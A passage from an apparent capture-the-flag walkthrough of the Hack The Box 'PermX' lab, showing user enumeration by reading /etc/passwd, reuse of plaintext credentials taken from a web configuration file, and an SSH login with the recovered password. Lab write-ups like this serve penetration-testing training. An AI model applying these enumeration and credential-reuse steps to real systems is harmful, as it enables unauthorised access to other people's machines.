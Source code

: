 ### System User Identification

Checking local users with shell access:

```bash
cat /etc/passwd | grep '/bin/bash'
```

**Result:** The user `mtz` has shell access.

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        <strong>Plaintext credentials found!</strong> These credentials are potentially reused elsewhere on the system.
    </p>
</div>

<div class="bg-cyan-100 dark:bg-cyan-900/20 border-l-4 border-cyan-500 p-4 my-4 rounded-r-lg">
    <p class="text-cyan-800 dark:text-cyan-200">
        <i class="fas fa-lightbulb mr-2 text-cyan-500"></i>
        <strong>Technique:</strong> Web application configuration files are goldmines for pivoting — they often contain valid credentials reused on the system.
    </p>
</div>


## 🔐 Phase 6 — SSH Access and User Flag

### SSH Connection

Attempting SSH connection with the discovered password:

```bash
ssh mtz@permx.htb
```

**Password:** `03F6lY3uXAP2bkW8`

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        SSH connection successful!
    </p>
</div>

### Access Validation

```bash
id
whoami
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-gray-700 dark:text-gray-300">
        uid=1000(mtz) gid=1000(mtz) groups=1000(mtz)
    </div>
</div>
